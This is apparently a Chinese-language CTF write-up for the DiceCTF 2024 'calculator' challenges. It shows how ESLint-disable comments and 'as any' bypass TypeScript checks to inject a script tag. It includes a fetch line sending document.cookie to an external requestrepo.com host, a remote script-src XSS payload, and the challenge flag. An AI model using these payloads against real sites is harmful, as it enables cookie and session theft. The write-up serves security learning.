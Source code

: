 - `/*eslint-disable*/`
- `/*eslint-enable*/`
- `/*global*/`
- `/*eslint*/`
- `/*eslint-env*/`
- `// eslint-disable-line`
- `// eslint-disable-next-line`

使用 `/*eslint-disable*/` 关闭 ESLint，再配合 `as any`，就可以顺利返回一个字符串了。

```ts
/*eslint-disable*/ '<script>alert(0)</script>' as any
```

[requestrepo](https://requestrepo.com/) 还蛮好用的，能够记录 HTTP 和 DNS 的请求，还支持设置返回内容、DNS 记录等等。

将 `Response` 设置为：

```js
fetch('https://opkpqgz5.requestrepo.com/?a=' + document.cookie)
```

XSS Payload:

```ts
/*eslint-disable*/'<script src=//opkpqgz5.requestrepo.com></script>' as any
```

勉强在长度限制内。

Flag: `dice{society_if_typescript_were_sound}`

### calculator-2

参考 write-up：[ouuan.moe/post/2024/02/dicectf-2024-quals#calculator](https://ouuan.moe/post/2024/02/dicectf-2024-quals#calculator)

给出了几个 Payload：

```ts
((x:[number|string])=>typeof x[0]=='number'?((y=>{y[0]='*'})(x),x[0]):1)([0])

// 我不知道怎样格式化能让它好看一些
(
    (x:[number|string]) =>
        typeof x[0] == 'number' ?
            ( (y => { y[0]='*' })(x), x[0] )
        :
            1
)([0])
```

创建了一个函数，接收一个元素类型为 `number` 或 `string` 的数组作为参数，在函数内部判断首个元素是否是 `number` 类型，如果是的话就调用另一个函数。

`#!ts (y => { y[0]='*' })` 函数将参数 `#!ts y` 的首元素换成了 `#!ts '*'`，所以 `#!ts ( (y => { y[0]='*' })(x), x[0] )` 相当于返回了 `#!ts '*'` 字符串。

所以整体就是返回 `#!ts '*'` 字符串，应该是可以修改这个位置的内容来 XSS。

这些操作应该是可以迷惑类型检查的吧，但是这个 Payload 超出长度限制了。
